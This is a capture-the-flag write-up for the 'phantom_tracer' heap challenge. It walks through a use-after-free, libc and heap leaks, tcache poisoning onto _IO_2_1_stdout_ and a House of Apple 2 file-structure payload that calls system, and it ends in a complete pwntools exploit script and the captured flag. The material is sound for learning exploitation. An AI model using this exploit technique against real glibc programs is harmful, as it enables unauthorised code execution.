## Heap Exploitation: House of Apple 2
### Primer
Use [pwninit](https://github.com/io12/pwninit/releases/tag/3.3.1) to patch the binary with the given libc.

```bash
./pwninit --bin phantom_tracer --libc libc.so.6
```

### Architecture and protections
The binary is x64.



The libc version is 2.39, which has tcache safe linking, and no easy hooks. However, it is vulnerable to [House of Apple 2](https://corgi.rip/posts/leakless_heap_1/) (the relevant section is at the bottom of the article).



### Static analysis
`main()` provides the standard CRUD menu for heap operations, with a UAF vulnerability:









### Exploit planning
1. Allocate a chunk too big to fit into the tcache bins, this will be used for the largebin attack.
2. Allocate two more chunks that fit into the tcache bins, and are also big enough to hold the `house_of_apple2` payload. These will be used in the tcache poisoning attack.
3. Free the first chunk, and use UAF to read `next` to leak a runtime `libc` address.
4. Calculate the base of `libc`, and thus derive the runtime address of `_IO_2_1_stdout_`.
5. Perform tcache poisoning on the other two chunks to obtain a pointer to `_IO_2_1_stdout_`.
6. Write the `house_of_apple2` payload to this pointer.

### Exploit crafting
- `b *(main+364)`

`malloc(1080)`



first `malloc(256)`



second `malloc(256)`



- `b *(main+656)`



### Exploit code
```python
#!/home/kali/.venv/bin/python

import sys
from pwn import *
from pwncli import io_file

elf = context.binary = ELF("./phantom_tracer_patched", checksec=False)
libc = ELF("./libc.so.6", checksec=False)
ld = ELF("./ld-2.39.so", checksec=False)
context.terminal = ["tmux", "splitw", "-h"]

def conn():
    if "remote" in sys.argv:
        return remote("chals.tisc-dc26.csit-events.sg", 31629)

    p = process()

    if "gdb" in sys.argv:
        s = """
            b *(main+364)
            b *(main+656)
        """
        gdb.attach(p, gdbscript=s)

    return p

p = conn()

######################################################################

def malloc(size):
    p.sendlineafter(b"Command> ", b"1")
    p.sendlineafter(b"Signal Strength: ", str(size).encode())

def read(index, payload):
    p.sendlineafter(b"Command> ", b"2")
    p.sendlineafter(b"Node Index: ", str(index).encode())
    p.sendlineafter(b"New Pattern: ", payload)

def free(index):
    p.sendlineafter(b"Command> ", b"3")
    p.sendlineafter(b"Node Index: ", str(index).encode())

def write(index):
    p.sendlineafter(b"Command> ", b"4")
    p.sendlineafter(b"Node Index: ", str(index).encode())
    p.recvline()
    return int.from_bytes(p.recvline()[:8], byteorder="little")

def unprotect(leak):
    for i in range(8):
        leak ^= (leak >> 12) & (0xff00000000000000 >> i * 8)
    return leak

def protect(adr, val):
    return (adr >> 12) ^ val

######################################################################

#pause()

malloc(1080) # 0
malloc(256)  # 1
malloc(256)  # 2
free(0)

libc.address = write(0) - 0x203b20 # 0x7f108e803b20 - 0x7f108e600000
p.success(f"libc : {hex(libc.address)}")

free(2)
free(1)
heap = unprotect(write(1)) - 0x110 # 0x5593d26e67f0 - 0x5593d26e66e0
p.success(f"heap : {hex(heap)}")

payload = p64(protect(heap, libc.sym["_IO_2_1_stdout_"]))
read(1, payload)
malloc(256) # 3
malloc(256) # 4

file = io_file.IO_FILE_plus_struct()
payload = file.house_of_apple2_execmd_when_do_IO_operation(
    libc.sym["_IO_2_1_stdout_"],
    libc.sym["_IO_wfile_jumps"],
    libc.sym["system"]
)
read(4, payload)

######################################################################

sleep(0.1)
p.sendline(b"cat flag.txt")
p.interactive()

# TISCDCSG{vofdVmzO4ypb4YE0UemhJM0zQoY3DrL1}
```

### Exploit success

